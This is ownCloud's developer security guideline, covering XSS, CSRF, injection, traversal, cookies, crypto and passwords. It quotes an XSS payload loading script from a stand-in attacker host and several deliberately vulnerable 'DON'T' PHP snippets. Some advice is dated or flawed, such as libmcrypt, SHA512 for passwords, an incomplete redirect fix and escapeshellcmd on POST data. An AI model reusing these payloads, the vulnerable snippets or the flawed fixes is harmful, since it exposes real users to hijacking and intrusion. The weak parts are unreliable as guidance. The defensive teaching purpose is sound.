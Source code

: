 Security Guidelines
===================

.. sectionauthor:: Bernhard Posselt <dev@bernhard-posselt.com>, Lukas Reschke <lukas@statuscode.ch>

This guideline highlights some of the most common security problems and how to prevent them. Please review your app if it contains any of the following security holes.

.. note:: **Program defensively**: for instance always check for CSRF or escape strings, even if you do not need it. This prevents future problems where you might miss a change that leads to a security hole.

.. note:: All App Framework security features depend on the call of the controller through :php:meth:`OCA\\AppFramework\\App::main`. If the controller method is executed directly, no security checks are being performed!

General
-------

Source Code Analysis
~~~~~~~~~~~~~~~~~~~~

Before releasing an application and after security-related changes, the complete source code **must** be scanned; we currently with `RIPS`_.
Affected Software:

- Core
- All apps in core
- All apps in the marketplace

Architecture
------------

Security Related Comments in Source Code
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Security-related comments in source code are forbidden. 
Source code means PHP code and especially JavaScript code.
Security-related comments are:

- Usernames and passwords
- Descriptions of processes and algorithms

.. TODO I've chased up Peter about the use of the minifier. I didn’t think it encrypted the information.

Before deploying, use a minifier for JavaScript and CSS files.

Switch Between HTTP and HTTPS
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

ownCloud should only be rendered with HTTPS. 
A switch between HTTP and HTTPS in an application should be avoided, which avoids creating `mixed-content pages`_ and the problems which that can cause. 
Don't use HTTP for the *stylesheet*, *image*, and *JavaScript* files, if the application itself is running under HTTPS.

Security Related Actions
~~~~~~~~~~~~~~~~~~~~~~~~

All security-related actions must take place on the server, which includes *validation*, *authentication*, and *authorization*. 
Additional implementations on the client side are only useful for providing a better user experience. 
Don't hard-code passwords or encryption keys in the source code. 
They have to be in config files and should be user-generated.

Browser plugins
~~~~~~~~~~~~~~~

Don't use browser plugins such as:

- ActiveX Controls
- Java Applets
- Flash

Least Privilege Principle
~~~~~~~~~~~~~~~~~~~~~~~~~

Every application should only have the rights that it needs. 
An application should not access core database tables. 
If it needs data from these tables, it should call an API to retrieve it.

Error Messages and Error Pages
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Don't show sensitive information on error pages or in error messages. 
Sensitive information includes:

- Username/password
- E-Mail addresses
- Version numbers
- Paths

Don't show information in error messages or on error pages, which is too detailed.

**Example:**

If a user can't login, don't show an error like: "*Your password is wrong*". 
Instead, show a message such as: "*There was an error with your credentials*". 
If you print "*Your password is wrong*" then an attacker knows the username was a valid one in the ownCloud installation.
Additionally, consider implementing a `CAPTCHA`_ to prevent brute force attacks, after five failed login attempts.

Session ID Transport
~~~~~~~~~~~~~~~~~~~~

Don't use a session id as a GET Parameter, because these persist in browser history.
Use cookies instead.

New Session ID After a Successful Login
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

After a successful login, the session id should be regenerated to prevent `session fixation attacks`_. 
If you have to switch between HTTPS and HTTP, you should change the session id, because an attacker could have already read the session id.

Access Protection With Authorization Check
------------------------------------------

Every request to the server must perform a check if the user has the authorization to perform this request. 
A client-side check is not recommended. 
However, it can improve the user's experience.

Best Practices
--------------

Use of the eval Function 
~~~~~~~~~~~~~~~~~~~~~~~~~

Don't use either PHP's or JavaScript's ``eval`` functions — especially not with user-supplied data.

Input Validation
~~~~~~~~~~~~~~~~

All user-supplied data, ``$_SERVER``, and ``$_COOKIE`` variables **must** be validated. 
All these contain data which can be changed (or forged) by the client.
You should also sanitize any supplied script code. 

**Example:**

If you expect to receive an integer id as a GET parameter, then always explicitly cast it into an integer using the cast operator ``(int)``, because all ``$_REQUEST`` parameter are strings. 
However, if you expect text as a parameter, use `PHP's htmlspecialchars function`_ with ``ENT_QUOTES`` or ``strip_tags`` to prevent `Cross-site Scripting (XSS) attacks`_.

.. code-block:: php

  <?php

  $neu = htmlspecialchars("<a href='test'>Test</a>", ENT_QUOTES);
  echo $neu; // &lt;a href=&#039;test&#039;&gt;Test&lt;/a&gt;

.. code-block:: php 

  <?php

  $text = '<p>Test-Absatz.</p><!-- Kommentar --> <a href="#fragment">Anderer Text</a>';
  echo strip_tags($text);
  echo "\n";

**Output:**

.. code-block:: console 

  Test-Absatz. Anderer Text
  <p>Test-Absatz.</p> <a href="#fragment">Anderer Text</a>

Please do the validation **before** all other actions.

Path Traversal and Path Manipulation
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

If you need to access the file system, don't use user-supplied data to build path names. 
You have to check the input parameters for null bytes (``\0``), the links to the current and parent directory on UNIX/Linux filesystems (``.`` and ``..``), and empty strings.

Prevent Command Injection
~~~~~~~~~~~~~~~~~~~~~~~~~

Use `PHP's escapeshellarg() function`_, if your input parameters are arguments for `exec()`_, `popen()`_, `system()`_, or the backtick (`````) operator.

.. code-block:: php 

  <?php

  system('ls '.escapeshellarg($dir));

If you don't know how many arguments your application receives, then use the PHP function `escapeshellcmd()`_ to escape the whole command.

.. code-block:: php

  <?php
  $command = './configure '.$_POST['configure_options'];

  $escaped_command = escapeshellcmd($command);

  system($escaped_command);

Output Escaping
~~~~~~~~~~~~~~~

All input parameters printed out in the response should be escaped. 
Do not use ``print_unescaped()`` in ownCloud templates, use ``p()`` instead. 
If you have to output text in JavaScript use ``$jQuery.text()``. 
If you want to output HTML, use ``$jQuery.html()``. 
A better option is to use a tool like `HTMLPurifier`_.

High Sensitive Information in GET Request
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

You should not use sensitive information, like passwords or usernames, in unprotected requests. 
All request with sensitive information should be protected with HTTPS.

Prevent HTTP-Header-Injection (HTTP Response Splitting)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

To prevent `HTTP Response Splitting`_, you have to check all request variables for ``%0d`` (CR) and ``%0a`` (LF), if they are parameters provided to `PHP's header() function`_.
This is because an attacker can deface your website, such as redirect the request to a phishing site or executing an XSS attack, by performing header manipulation.

Changes on the Document Object Model (DOM)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

If your code changes the DOM, then don't use unvalidated user input.

.. warning:: You should never trust user input.

Prevent SQL-Injection
~~~~~~~~~~~~~~~~~~~~~

If you have to pass parameters to a SQL query, use the escape functions for your database system to prevent `SQL Injection attacks`_. 
In ownCloud you must use the `QueryBuilder`_.

Data Storage
------------

Persistent Storages on Client Side
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Don't save highly sensitive data in persistent storage on the client side. 
Persistent data storage includes:

- `Persistent HTTP cookies`_
- `Flash cookies`_
- `HTML5 Web-Storage`_
- `HTML5 Index DB`_

Release all Resources in Case of an Error
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

All resources, such as database and file locks, must be released when errors occur. 
Doing so prevents the server from being subject to `denial-of-service (DOS) attacks`_.

Cryptography
------------

Symmetric Encryption Methods
~~~~~~~~~~~~~~~~~~~~~~~~~~~~

If you use symmetric encryption methods in your code, use the following encryption types:

- AES with a key length of 256
- SERPENT with a key length of 256

For block ciphers use the following modes:

- CFB (cipher feedback mode)
- CBC (cipher block chaining mode)

CFB mode requires an initialization vector (IV) to the respective cipher function. 
Whereas in CBC mode, supplying one is optional.
The IV must be unique and must be the same when encrypting and decrypting. 
Use `the PHP crypt library`_ with `libmcrypt`_ greater 2.4.x.

Asymmetric Encryption Methods
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

If you use asymmetric encryption methods, use the following encryption type:

- RSA with key length 4096

Hash Algorithms
~~~~~~~~~~~~~~~

If you need a hash function in PHP, use the SHA512 hash algorithm. 
You can use `PHP's crypt() function`_, but only with a strong salt.
Don't use *MD5*, *SHA1* or *SHA256*. 
These types of algorithms are designed to be very fast and efficient. 
However, with modern techniques and computer equipment, it has become trivial to brute force the output of these algorithms to discover the original input.

Cookies
-------

Secure Flag
~~~~~~~~~~~

If you use HTTPS to protect requests, then you have to use `the secure flag`_ for your cookies.

HTTP Only
~~~~~~~~~

If you don't have to access your cookie content in JavaScript, the set `the HttpOnly flag`_ on every cookie.

Path
~~~~

If possible, set a path for a cookie. 
Doing so ensures that the cookie is only valid for requests using the provided path.

Passwords
---------

The following chapter is not only for developers but also for admins and end-users.

Charset of Passwords 
~~~~~~~~~~~~~~~~~~~~~

The charset of a password should contain *characters*, *numbers*, and *special characters*.
Characters should be both upper and lowercase.

Password Length
~~~~~~~~~~~~~~~

All password should have a minimum length of eight characters and contain numbers and special characters. 
These requirements must be validated by the application.

Password Quality
~~~~~~~~~~~~~~~~

If the user can choose his password for the first time, the quality of a password should be displayed graphically.

Password Input
~~~~~~~~~~~~~~

If a user can input his password into an input field, the input field **must** be of type "password". 
If an error occurs, don't fill the password field automatically when displaying an error message.

Save Passwords
~~~~~~~~~~~~~~

Don't save passwords in clear text. 
Use a `salted hash`_

Default and Initial Passwords
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Both default and initial passwords should be avoided. 
If you have to use either, you have to make sure that the password is changed by the user on the first call to the application.

User Interface
--------------

Input Auto-completion
~~~~~~~~~~~~~~~~~~~~~

Auto-complete must be disabled for all input fields which receive sensitive data.
Sensitive data includes:

- Username
- Password
- Credit card information
- Banking information

For text input fields use ``autocomplete="off"`` or use a dynamically generated field name.

For password fields use: 

.. code-block:: 

  <input name="pass" type="password" autocomplete="new-password" />

Attack Vectors
--------------

Auth bypass / Privilege escalations
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Auth bypass/privilege escalations happen when users can perform unauthorized actions.
ownCloud offers three simple checks:

* **OCP\\JSON::checkLoggedIn()**: Checks if the logged in user is logged in
* **OCP\\JSON::checkAdminUser()**: Checks if the logged in user has admin privileges
* **OCP\\JSON::checkSubAdminUser()**: Checks if the logged in user has group admin privileges

Using the App Framework, these checks are already automatically performed for each request and have to be explicitly turned off by using annotations above your controller method,  see :doc:`../app/controllers`.

Additionally always check if the user has the right to perform that action.

Clickjacking
------------

`Clickjacking <http://en.wikipedia.org/wiki/Clickjacking>`_ tricks the user to click into an invisible iframe to perform an arbitrary action (e.g. delete an user account)

To prevent such attacks ownCloud sends the `X-Frame-Options` header to all template responses. Don't remove this header if you don't really need it!

This is already built into ownCloud if `ownCloud templates <https://doc.owncloud.org/server/latest/developer_manual/app/templates.html>`_ or `Twig Templates`_ are used.

Code executions / File inclusions
---------------------------------
Code Execution means that an attacker is able to include an arbitrary PHP file. This PHP file runs with all the privileges granted to the normal application and can do an enormous amount of damage.

Code executions and file inclusions can be easily prevented by **never** allowing user-input to run through the following functions:

* **include()**
* **require()**
* **require_once()**
* **eval()**
* **fopen()**

.. note:: Also **never** allow the user to upload files into a folder which is reachable from the URL!

**DON'T**

.. code-block:: php

  <?php
  require("/includes/" . $_GET['file']);

.. note:: If you have to pass user input to a potentially dangerous function, double check to be sure that there is no other way. If it is not possible otherwise sanitize every user parameter and ask people to audit your sanitize function.

Cross site request forgery
--------------------------
Using `CSRF <http://en.wikipedia.org/wiki/Cross-site_request_forgery>`_ one can trick a user into executing a request that he did not want to make. Thus every POST and GET request needs to be protected against it. The only places where no CSRF checks are needed are in the main template, which is rendering the application, or in externally callable interfaces.

.. note:: Submitting a form is also a POST/GET request!

To prevent CSRF in an app, be sure to call the following method at the top of all your files:

.. code-block:: php

  <?php
  OCP\JSON::callCheck();

If you are using the App Framework, every controller method is automatically checked for CSRF unless you explicitly exclude it by setting the @NoCSRFRequired annotation before the controller method, see :doc:`../app/controllers`

Cross site scripting
--------------------

`Cross site scripting <http://en.wikipedia.org/wiki/Cross-site_scripting>`_ happens when user input is passed directly to templates. A potential attacker might be able to inject HTML/JavaScript into the page to steal the users session, log keyboard entries, even perform DDOS attacks on other websites or other malicious actions.

Despite the fact that ownCloud uses Content-Security-Policy to prevent the execution of inline JavaScript code developers are still required to prevent XSS. CSP is just another layer of defense that is not implemented in all web browsers.

To prevent XSS in your app you have to sanitize the templates and all JavaScripts which performs a DOM manipulation.

Templates
~~~~~~~~~

Let's assume you use the following example in your application:

.. code-block:: php

  <?php
  echo $_GET['username'];

An attacker might now easily send the user a link to::

    app.php?username=<script src="attacker.tld"></script>

to overtake the user account. The same problem occurs when outputting content from the database or any other location that is writable by users.

Another attack vector that is often overlooked is XSS in **href** attributes. HTML allows to execute javascript in href attributes like this::

    <a href="javascript:alert('xss')">


To prevent XSS in your app, **never use echo, print() or <\%=** - use **p()** instead which will sanitize the input. Also **validate URLs to start with the expected protocol** (starts with http for instance)!

.. note:: Should you ever require to print something unescaped, double check if it is really needed. If there is no other way (e.g. when including of subtemplates) use `print_unescaped`  with care.

JavaScript
~~~~~~~~~~

Avoid manipulating the HTML directly via JavaScript, this often leads to XSS since people often forget to sanitize variables:

.. code-block:: js

  var html = '<li>' + username + '</li>"';

If you **really** want to use JavaScript for something like this use `escapeHTML` to sanitize the variables:

.. code-block:: js

  var html = '<li>' + escapeHTML(username) + '</li>';

An even better way to make your app safer is to use the jQuery built-in function **$.text()** instead of **$.html()**.

**DON'T**

.. code-block:: js

  messageTd.html(username);

**DO**

.. code-block:: js

  messageTd.text(username);

It may also be wise to choose a proper JavaScript framework like AngularJS which automatically  handles the JavaScript escaping for you.

Directory Traversal
-------------------
Very often developers forget about sanitizing the file path (removing all \\ and /), this allows an attacker to traverse through directories on the server which opens several potential attack vendors including privilege escalations, code executions or file disclosures.

**DON'T**

.. code-block:: php

  <?php
  $username = OC_User::getUser();
  fopen("/data/" . $username . "/" . $_GET['file'] . ".txt");

**DO**

.. code-block:: php

  <?php
  $username = OC_User::getUser();
  $file = str_replace(array('/', '\\'), '',  $_GET['file']);
  fopen("/data/" . $username . "/" . $file . ".txt");

.. note:: PHP also interprets the backslash (\\) in paths, don't forget to replace it too!


Shell Injection
---------------

`Shell Injection <http://en.wikipedia.org/wiki/Code_injection#Shell_injection>`_ occurs if PHP code executes shell commands (e.g. running a latex compiler). Before doing this, check if there is a PHP library that already provides the needed functionality. If you really need to execute a command be aware that you have to escape every user parameter passed to one of these functions:

* **exec()**
* **shell_exec()**
* **passthru()**
* **proc_open()**
* **system()**
* **popen()**

.. note:: Please require/request additional programmers to audit your escape function.

Without escaping the user input this will allow an attacker to execute arbitrary shell commands on your server.

PHP offers the following functions to escape user input:

* **escapeshellarg()**: Escape a string to be used as a shell argument
* **escapeshellcmd()**: Escape shell metacharacters

**DON'T**

.. code-block:: php

  <?php
  system('ls '.$_GET['dir']);

**DO**

.. code-block:: php

  <?php
  system('ls '.escapeshellarg($_GET['dir']));

Sensitive data exposure
-----------------------

Always store user data or configuration files in safe locations, e.g. **owncloud/data/** and not in the webroot where they can be accessed by anyone using a web browser.

SQL Injection
-------------
`SQL Injection <http://en.wikipedia.org/wiki/SQL_injection>`_ occurs when SQL query strings are concatenated with variables.

To prevent this, always use prepared queries:

.. code-block:: php

  <?php
  $sql = 'SELECT * FROM `users` WHERE `id` = ?';
  $query = \OCP\DB::prepare($sql);
  $params = array(1);
  $result = $query->execute($params);

If the App Framework is used, write SQL queries like this in the a class that extends the Mapper:

.. code-block:: php

  <?php
  // inside a child mapper class
  $sql = 'SELECT * FROM `users` WHERE `id` = ?';
  $params = array(1);
  $result = $this->execute($sql, $params);

Unvalidated redirects
---------------------
This is more of an annoyance than a critical security vulnerability since it may be used for social engineering or phishing.

Before redirecting, always validate the URL if the requested URL is on the same domain or is an allowed resource.

**DON'T**

.. code-block:: php

  <?php
  header('Location:'. $_GET['redirectURL']);

**DO**

.. code-block:: php

  <?php
  header('Location: https://example.com'. $_GET['redirectURL']);

Getting Help
------------

If you need help to ensure that a function is secure, please ask on our `mailing list <https://mailman.owncloud.org/mailman/listinfo/devel>`_ or in IRC channel **#owncloud-dev** on **irc.freenode.net**.

.. Links
   
.. _Twig Templates: https://twig.symfony.com/
.. _RIPS: http://rips-scanner.sourceforge.net/
.. _CAPTCHA: https://en.wikipedia.org/wiki/CAPTCHA
.. _the HttpOnly flag: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
.. _the eval function: http://php.net/manual/en/function.eval.php 
.. _PHP's htmlspecialchars function: http://php.net/manual/en/function.htmlspecialchars.php
.. _PHP's escapeshellarg() function: http://php.net/manual/en/function.escapeshellarg.php
.. _exec(): http://php.net/manual/en/function.exec.php
.. _popen(): http://php.net/manual/en/function.popen.php
.. _system(): http://php.net/manual/en/function.system.php
.. _escapeshellcmd(): http://php.net/manual/en/function.escapeshellcmd.php
.. _HTMLPurifier: http://htmlpurifier.org
.. _PHP's header() function: http://php.net/manual/en/function.header.php
.. _Persistent HTTP cookies: http://www.allaboutcookies.org/cookies/cookies-the-same.html
.. _Flash cookies: http://www.popularmechanics.com/technology/security/how-to/a6134/what-are-flash-cookies-and-how-can-you-stop-them/
.. _HTML5 Web-Storage: https://developer.mozilla.org/en-US/docs/Web/API/Web_Storage_API
.. _HTML5 Index DB: https://developer.mozilla.org/en-US/docs/Web/API/IndexedDB_API
.. _libmcrypt: http://mcrypt.sourceforge.net
.. _the PHP crypt library: http://php.net/manual/en/function.crypt.php
.. _PHP's crypt() function: http://php.net/manual/en/function.crypt.php
.. _denial-of-service (DOS) attacks: https://en.wikipedia.org/wiki/Denial-of-service_attack
.. _salted hash: https://crackstation.net/hashing-security.htm
.. _QueryBuilder: https://github.com/owncloud/core/blob/master/lib/private/DB/QueryBuilder/QueryBuilder.php
.. _the secure flag: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie
.. _mixed-content pages: https://developer.mozilla.org/en-US/docs/Web/Security/Mixed_content 
.. _session fixation attacks: https://www.owasp.org/index.php/Session_fixation 
.. _Cross-site Scripting (XSS) attacks: https://www.owasp.org/index.php/Cross-site_Scripting_(XSS) 
.. _HTTP Response Splitting: https://www.owasp.org/index.php/HTTP_Response_Splitting
.. _SQL Injection attacks: https://www.owasp.org/index.php/SQL_Injection

